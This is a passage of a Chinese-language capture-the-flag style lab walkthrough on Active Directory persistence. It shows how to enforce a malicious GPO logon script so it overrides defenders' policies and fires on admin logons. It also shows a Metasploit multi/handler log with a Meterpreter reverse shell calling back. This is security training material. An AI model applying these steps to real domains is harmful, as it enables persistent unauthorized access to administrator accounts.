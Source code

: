 右键点击你的策略，选择 “强制”。这将确保你的策略会应用，即使存在冲突的策略。这有助于确保我们的 GPO 优先生效，即使蓝队编写了一个会移除我们更改的策略。现在你可以右键点击你的策略，然后选择 “编辑”：

<div style={{textAlign:'center'}}>

![MMC GPO Manager Edit](img/image_20231245-184519.png)

</div>

让我们回到组策略管理编辑器：

- 在用户配置下，展开策略 -> Windows 设置。
- 选择脚本（登录 / 注销）。
- 右键点击登录 -> 属性
- 选择脚本选项卡。
- 点击添加 -> 浏览。

让我们导航至我们存储批处理和二进制文件的位置：

<div style={{textAlign:'center'}}>

![批处理和二进制文件](img/image_20231245-184558.png)

</div>

选择你的批处理文件作为脚本，然后点击打开和确定。点击应用和确定。这将确保每当管理员（层级 2、1 和 0）之一登录到任何计算机时，我们都会收到回调。

为了模拟这个过程，让我们重置层级 1 管理员帐户之一的密码并验证到一个服务器上。使用你在之前 AD 房间学到的任何技术来重置层级 1 管理员的密码。完成后，记得启动你的 MSF 多处理程序，并让我们通过远程桌面连接到 THMSERVER1 或 THMSERVER2 来测试一下！

使用你的层级 1 管理员凭据，远程桌面连接到其中一个服务器。如果再等待一分钟，你应该会在多处理程序中收到回调：

```shell title="Terminal"
msf5 exploit(multi/handler) > run
Started reverse TCP handler on 172.31.16.251:4445

[*] Sending stage (176195 bytes) to 172.31.1.201
[*] Meterpreter session 1 opened (172.31.16.251:4445 -> 172.31.1.201:63695) at 2022-05-07 10:06:28 +0100

meterpreter >
```
